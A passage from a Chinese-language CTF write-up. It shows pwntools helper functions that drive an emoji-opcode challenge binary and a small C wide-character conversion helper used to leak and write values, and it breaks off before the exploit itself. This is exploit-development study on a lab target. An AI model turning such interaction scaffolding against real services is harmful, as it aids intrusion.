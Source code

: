 ```
    sh.recvuntil("x93")
    sh.send(value)

def show(sh,index):
    sh.recvuntil("xe2x9dx93")
    sh.send(opcode['0x1F4D6'])
    sh.sendlineafter("xe2x9dx93",str(index+1))

def delete(sh,index):
    sh.recvuntil("xe2x9dx93")
    sh.send(opcode["0x1F193"])
    sh.sendlineafter("xe2x9dx93",str(index+1))
    sh.recvuntil("x9fx98xb1")

def flags(sh):
    sh.recvuntil("xe2x9dx93")
    sh.send(opcode["0x1F6A9"])
```

并且我们在之后的泄露和写值都需要使用宽字节交互，这里我们直接使用[@Hatena](https://github.com/Hatena)大佬提供的脚本：

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;locale.h&gt;
#include &lt;unistd.h&gt;

int main(int argc, char **argv) {
  int i;
  unsigned char out[0x10] = {0};
  unsigned char in[0x10] = {0};
  setlocale(0, "en_US.UTF-8");

  if (argc &lt; 2) {
    printf("Usage: %s [1|2]n", argv[0]);
    return 1;
  }

  if (argv[1][0] == '1') {
    read(0, in, 0x10);
    mbstowcs((wchar_t*)out, in, 0x10);
    write(1, out, 8);
  } else {
    read(0, in, 8);
    wcstombs(out, (wchar_t*)in, 0x10);
    write(1, out, 0x10);
  }
  return 0;
}
```

然后我们在python中这样调用：
